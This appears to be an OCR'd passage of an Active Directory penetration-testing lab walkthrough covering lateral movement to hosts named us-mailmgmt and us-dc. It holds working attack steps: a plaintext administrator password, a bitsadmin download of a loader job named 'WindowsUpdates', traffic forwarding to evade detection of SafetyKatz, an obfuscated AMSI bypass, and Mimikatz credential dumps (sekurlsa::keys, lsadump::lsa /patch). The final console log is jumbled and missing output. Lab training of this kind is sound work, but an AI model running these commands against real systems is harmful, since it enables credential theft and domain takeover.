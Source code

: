 ```
PS C:\AD\Tools> net use X: \\us-mailmgmt\C$\Users\Public /user:us-mailmgmt\Administrator '9};,)J6p2[67[3'

The command completed successfully.

PS C:\AD\Tools> echo F | xcopy C:\AD\Tools\Loader.exe X:\Loader.exe

[SNIP]

C:\AD\Tools\Loader.exe
1 File(s) copied

PS C:\AD\Tools> net use X: /d

X: was deleted successfully.
```

⭐ Alternatively, we could also use bitsadmin, a Microsoft signed binary, to download `Loader.exe` (NetLoader) on `us-mailmgmt`.
Remember to host `Loader.exe` on a local web server on your student VM.

```
C:\AD\Tools> winrs -r:us-mailmgmt -u:.\administrator -p:'9};,)J6p2[67[3' "bitsadmin /transfer WindowsUpdates /priority normal http://127.0.0.1:8080/Loader.exe C:\\Users\\Public\\Loader.exe"

BITSADMIN version 3.0
BITS administration utility.
(C) Copyright Microsoft Corp.

Transfer complete.
```

⚠️ If you get an error like: "Unable to add file - 0x800704dd. The operation being requested was not performed because the user has not logged on to the network. The specified service does not exist.", then you may like to use `xcopy` to copy the loader.

Next, we can download and run SafetyKatz in memory using Loader.

⭐ To bypass behaviour detection of SafetyKatz we need to perform an additional step: we need to forward traffic from local (target) machine to the student VM. This way, the download always happens from `127.0.0.1`.

Run the following commands to connect to `us-mailmgmt` using winrs and forward the traffic.

```
PS C:\AD\Tools> ipconfig

Windows IP Configuration

Ethernet adapter Ethernet 2:

   Connection-specific DNS Suffix  . :
   Link-local IPv6 Address . . . . . : fe80::8de:e9be:7cb3:1077%8
   IPv4 Address. . . . . . . . . . . : 192.168.100.51 🌐
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.100.254
```


[us-mailmgmt]: PS C:\Users\Administrator\Documents>
[us-mailmgmt]: PS C:\Users\Administrator\Documents> $env:username
[us-mailmgmt]: PS C:\Users\Administrator\Documents> $env:computername
[us-mailmgmt]: PS C:\Users\Administrator\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + (("{1}{0}"-f'1','blE:')+'q2') + ('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f '.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f 'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f 'ile','a')) ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}" -f'ubl','P')+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
[us-mailmgmt]: PS C:\Users\Administrator\Documents> exit
[us-mailmgmt]: PS C:\Users\Administrator\Documents> Invoke-Mimi -Command '"sekurlsa::keys"'
[us-dc]: PS C:\Users\Administrator\Documents> whoami
[us-dc]: PS C:\Users\Administrator\Documents> hostname
[us-dc]: PS C:\Users\Administrator\Documents>exit
[us-dc.us.techcorp.local]: PS C:\Users\Administrator\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + (("{1}{0}"-f'1','blE:')+'q2') + ('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f '.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f 'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f 'ile','a')) ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}" -f'ubl','P')+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
[us-dc.us.techcorp.local]: PS C:\Users\Administrator\Documents> exit
[us-dc.us.techcorp.local]: PS C:\Users\Administrator\Documents> Invoke-Mimi -Command '"lsadump::lsa /patch"'